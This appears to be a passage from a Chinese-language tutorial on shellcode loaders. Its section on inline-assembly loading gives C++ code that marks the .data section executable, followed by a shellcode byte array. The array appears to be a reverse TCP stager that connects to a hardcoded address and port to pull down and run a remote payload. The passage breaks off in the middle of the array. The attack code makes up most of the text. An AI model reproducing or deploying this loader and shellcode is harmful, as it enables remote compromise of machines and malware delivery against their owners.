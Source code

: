 <img src="shellcode加载器/image-20230612172127151.png" alt="image-20230612172127151" style="zoom:67%;" />	



# 1.内联汇编加载

使用内联汇编只能加载32位程序的ShellCode，因为64位程序不支持写内联汇编

```cpp
#pragma comment(linker, "/section:.data,RWE") //将data段的内存设置成可读可写可执行
#include <Windows.h>

//ShellCode部分
unsigned char buf[] =
"\xfc\xe8\x8f\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30\x8b"
"\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\x31\xc0"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x07\x01\xc7\x49\x75\xef\x52"
"\x8b\x52\x10\x57\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4c"
"\x01\xd0\x8b\x48\x18\x8b\x58\x20\x01\xd3\x50\x85\xc9\x74\x3c\x49"
"\x8b\x34\x8b\x31\xff\x01\xd6\x31\xc0\xc1\xcf\x07\xac\x01\xc7\x38"
"\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe0\x58\x8b\x58\x24\x01"
"\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89"
"\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x58\x5f\x5a\x8b\x12"
"\xe9\x80\xff\xff\xff\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f"
"\x54\x68\xd2\x53\x6e\xfc\x89\xe8\xff\xd0\xb8\x90\x01\x00\x00\x29"
"\xc4\x54\x50\x68\x9c\x13\x41\xc4\xff\xd5\x6a\x0a\x68\xc0\xa8\x2f"
"\x9b\x68\x02\x00\x11\x5c\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50"
"\x68\x2c\x9b\xfc\xa4\x50\x58\xff\xd5\x97\x6a\x10\x56\x57\x68\xb6\x59\xc0"
"\x0e\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67\x00\x00"
"\x00\x6a\x00\x6a\x04\x56\x57\x68\xe8\xd9\xce\x36\xff\xd5\x83\xf8"
"\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a\x00\x68"
"\x9c\xed\x92\x66\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68\xe8\xd9"
"\xce\x36\xff\xd5\x83\xf8\x00\x7d\x28\x58\x68\x00\x40\x00\x00\x6a"
"\x00\x50\x68\x3e\xba\x17\xa3\xff\xd5\x57\x68\xe6\xfc\xe1\xe2\xff"
```